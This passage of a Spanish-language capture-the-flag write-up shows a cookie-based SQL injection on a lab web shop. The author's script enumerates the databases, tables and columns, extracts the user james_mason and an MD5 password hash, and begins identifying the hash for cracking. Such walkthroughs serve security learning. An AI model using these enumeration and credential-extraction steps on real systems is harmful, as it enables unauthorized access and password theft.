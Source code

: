 Nos apoyaremos de estos recursos para generar los payloads:

* [MySQL SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet).
* [MySQL SQL Injection Practical Cheat Sheet](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/).

Ahora sí, veamos que bases de datos existen:

```bash
❱ python3 cookieCartInjection.py -q
...
[+] Base de datos [0]: checkout
```

Bien, enfoquémonos en `checkout` (que de las no habituales es la única), ya que tiene que ver con nosotros, veamos sus tablas:

```bash
❱ python3 cookieCartInjection.py -q checkout
...
[+] Tabla [0]: user
[+] Tabla [1]: product
```

Me gusta, leamos las columnas de la tabla `user`:

```bash
❱ python3 cookieCartInjection.py -q checkout user
...
[+] Columna [0]: id
[+] Columna [1]: username
[+] Columna [2]: password
```

Extraigamos el contenido tanto de `username` como de `password`:

```bash
❱ python3 cookieCartInjection.py -q checkout user username
...
[+] username [0]: james_mason
```

```bash
❱ python3 cookieCartInjection.py -q checkout user password
...
[+] password [0]: fc895d4eddc2fc12f995e18c865cf273
```

Solo existe un usuario llamado `james_mason` con su respectiva contraseña, esa contraseña está en formato hash (encriptada), pues intentemos romper ese hash o mejor dicho **crackearlo**, usaremos [john](https://www.openwall.com/john/) y [hashcat](https://hashcat.net/hashcat/) para que vean sus usos:

Lo primero es tomar ese hash y guardarlo en un archivo, lo llamaré `james_mason.hash`, lo siguiente es identificar que tipo de hash es, en mi caso usaré `hash-identifier`:

```bash
❱ hash-identifier
...
 HASH: fc895d4eddc2fc12f995e18c865cf273

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))   

Least Possible Hashs:
...
```
